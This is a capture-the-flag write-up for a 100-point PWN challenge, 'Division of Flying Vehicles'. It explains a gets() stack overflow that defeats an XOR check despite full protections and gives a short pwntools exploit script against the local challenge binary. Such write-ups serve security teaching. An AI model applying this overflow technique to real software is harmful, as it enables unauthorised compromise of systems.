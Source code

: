 # Division of Flying Vehicles

## Category
PWN

## Points:
100

## Description:
Dave ruined the code for the DFV Starship Registry system. Can you please help fix it?

## Creator:
nsnc

## Solve

All protections are on in this binary, preventing easy exploitation of the `gets` call.
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

However, the stack buffer overflow can still be exploited. The input to the program is xored against the value on the stack after your input, which can now be controlled with `gets()`.

```
input[:8] ^ input[8:16] == 0x1004d5d649dc0f00
```

If `input[:8] == 'AAAAAAAA'`, then `input[8:16]` should be `p64(0x1004d5d649dc0f00 ^ 0x4141414141414141)`, since xor is invertable.

```python
from pwn import *
p = process('./dfv')
payload = 'AAAAAAAA' + p64(0x1004d5d649dc0f00 ^ 0x4141414141414141)
p.sendline(payload)
p.interactive()
```
